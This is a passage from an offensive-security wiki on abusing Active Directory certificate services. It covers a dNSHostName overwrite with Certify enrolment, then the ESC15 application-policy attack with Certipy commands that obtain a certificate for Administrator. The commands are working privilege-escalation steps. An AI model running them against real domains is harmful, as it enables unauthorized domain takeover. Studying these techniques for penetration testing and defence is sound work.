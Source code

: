 
=== Windows

From Windows systems, with PowerShell the `cn` attribute of the victim must be overwritten to be equal to `$TARGET.domain.local`.

```powershell
$victim = [ADSI]"LDAP://CN=$VICTIM,CN=Computers,DC=domain,DC=local"
$victim.Properties["dNSHostName"].Value = $TARGET
$victim.CommitChanges()
```

Then, [Certify](https://github.com/GhostPack/Certify) (C#) can be used to enroll on a certificate template from the victim session.

```powershell
Certify.exe request /ca:domain\ca /template:$TEMPLATE /machine
```

The certificate can then be used with [Pass-the-Certificate](../kerberos/pass-the-certificate.md) to obtain a TGT and authenticate as the target.

:::

### (ESC15) Arbitrary application policy

By default, the X509 standard uses EKUs to indicate the possible uses of a certificate. Under Windows, a field called `Application Policy` is added to certificates, and this does the same thing as EKUs, but with a few more options. If both EKUs and *application policies* are present in a certificate, the latter takes precedence.

It turns out that if a certificate template uses **version 1** of the certificate templates, authorises the SAN specification, and if it is possible to enrol on it, then it is possible to request a certificate by specifying an arbitrary user and requesting an arbitrary *application policy*.

> [!TIP] TIP
> Note, however, that specifying "Client Authentication" in *application policy* will only allow **SChannel authentication and not PKINIT**. On the other hand, by specifying "Certificate Request Agent" (`1.3.6.1.4.1.311.20.2.1`), the certificate can be used as an [ESC3](certificate-templates.md#certificate-agent-eku-esc3).

You can see the ESC15 as an [ESC2](certificate-templates.md#any-purpose-eku-esc2) with more steps.

::: tabs

=== UNIX-like

From UNIX-like systems, [this pull request on Certipy](https://github.com/ly4k/Certipy/pull/228) (Python) can be used to enumerate for, and conduct, the ESC15 scenario. 

```bash
# Request a certificate with "Certificate Request Agent" application policy
certipy req -u $USER@$DOMAIN --application-policies "1.3.6.1.4.1.311.20.2.1" -ca $CA_NAME -template $TEMPLATE -dc-ip $DC_IP

# Use the certificate in a ESC3 scenario to ask for a new certificate on behalf of another user
certipy req -u $USER@$DOMAIN -on-behalf-of $DOMAIN\\Administrator -template User -ca $CA_NAME -pfx cert.pfx -dc-ip $DC_IP

# Authenticate with the last certificate
certipy auth -pfx administrator.pfx -dc-ip $DC_ADDR
```
